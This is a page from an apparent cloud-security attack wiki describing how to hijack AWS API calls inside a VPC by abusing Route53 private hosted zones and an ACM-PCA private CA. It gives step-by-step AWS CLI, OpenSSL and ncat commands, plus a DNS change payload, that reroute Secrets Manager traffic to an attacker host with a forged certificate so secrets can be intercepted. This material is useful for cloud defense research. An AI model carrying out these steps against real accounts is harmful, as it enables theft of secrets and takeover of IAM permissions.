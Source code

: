 ```yaml
---
author_name: Patryk Bogusz
title: AWS API Call Hijacking via ACM-PCA
description: By modifying the route53 entries and utilizing the acm-pca private CA one can hijack the calls to AWS API inside the AWS VPC
hide:
  - toc
---
```


# AWS API Call Hijacking via ACM-PCA

Original Research: [niebardzo](https://twitter.com/niebardzo2) - [Hijacking AWS API Calls](https://niebardzo.github.io/2022-03-11-aws-hijacking-route53/) 

**Required IAM Permission**: [route53:CreateHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/create-hosted-zone.html), [route53:ChangeResourceRecordSets](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/change-resource-record-sets.html), [acm-pca:IssueCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/issue-certificate.html), [acm-pca:GetCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/get-certificate.html)  
**Recommended but not required**: [route53:GetHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/get-hosted-zone.html), [route53:ListHostedZones](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/list-hosted-zones.html), [acm-pca:ListCertificateAuthorities](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/list-certificate-authorities.html), [ec2:DescribeVpcs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-vpcs.html) (may be useful for enumeration, but are not requires as the info can be enumerated in other ways)  

!!! Note
    To perform this attack the target account must already have an [AWS Certificate Manager Private Certificate Authority](https://aws.amazon.com/certificate-manager/private-certificate-authority/) (AWS-PCA) setup in the account, and EC2 instances in the VPC(s) must have already imported the certificates to trust it. With this infrastructure in place, the following attack can be performed to intercept AWS API traffic.

Assuming there is an AWS VPC with multiple cloud-native applications talking to each other and to AWS API. Since the communication between the microservices is often TLS encrypted there must be a private CA to issue the valid certificates for those services. If ACM-PCA is used for that and the adversary manages to get access to control both route53 and acm-pca private CA with the minimum set of permissions described above, it can hijack the application calls to AWS API taking over their IAM permissions.

This is possible because:  

* AWS SDKs do not have [Certificate Pinning](https://www.digicert.com/blog/certificate-pinning-what-is-certificate-pinning)
* Route53 allows creating Private Hosted Zone and DNS records for AWS APIs domain names
* Private CA in ACM-PCA cannot be restricted to signing only certificates for specific Common Names

For example, Secrets Manager in us-east-1 could be re-routed by an adversary setting the secretsmanager.us-east-1.amazonaws.com domain to an IP controlled by the adversary. The following creates the private hosted zone for secretsmanager.us-east-1.amazonaws.com:
```
aws route53 create-hosted-zone --name secretsmanager.us-east-1.amazonaws.com --caller-reference sm4 --hosted-zone-config PrivateZone=true --vpc VPCRegion=us-east-1,VPCId=<VPCId>
```

Then set the A record for secretsmanager.us-east-1.amazonaws.com in this private hosted zone. Use the following POST body payload - mitm.json:

```
{
  "Comment": "<anything>",
  "Changes": [{
    "Action": "UPSERT",
    "ResourceRecordSet": {
      "Name": "secretsmanager.us-east-1.amazonaws.com",
      "Type": "A",
      "TTL": 0,
      "ResourceRecords": [{"Value": "<ip_of_adversary_instance_in_the_VPC>"}]
    }
  }]
}
```

One set TTL to 0 to avoid DNS caching. Then, the advisory uses this payload to change-resource-record-sets:
```
aws route53 change-resource-record-sets --hosted-zone-id <id_returned_by_previous_API_call> --change-batch file://mitm.json
```

Now, the adversary must generate the CSR and send it for signing to the ACM-PCA, CSR and private key can be generated with OpenSSL:
```
openssl req -new -newkey rsa:2048 -nodes -keyout your_domain.key -out your_domain.csr
```

For CN (Common Name), one must provide secretsmanager.us-east-1.amazonaws.com. Then one sends the CSR to acm-pca to issue the certificate:
```
aws acm-pca issue-certificate --certificate-authority-arn "<arn_of_ca_used_within_vpc>" --csr file://your_domain.csr --signing-algorithm SHA256WITHRSA --validity Value=365,Type="DAYS" --idempotency-token 1234
```

It returns the signed certificate ARN in the response. The next call is to fetch the certificate.

```
aws acm-pca get-certificate --certificate-arn "<cert_arn_from_previous_response>" --certificate-authority-arn "<arn_of_ca_used_within_vpc>"
```

Once one got the signed certificate on the disk as cert.crt, the adversary starts the listener or 443/TCP and sniffs the calls to the secretsmanager.us-east-1.amazonaws.com
```
sudo ncat --listen -p 443 --ssl --ssl-cert cert.crt --ssl-key your_domain.key -v
```

The calls can be then forwarded to the Secrets Manager VPCE to for example GetSecretValue and get unauthorized access to the data. The same action can be done with any AWS API called from the VPC - S3, KMS, etc.
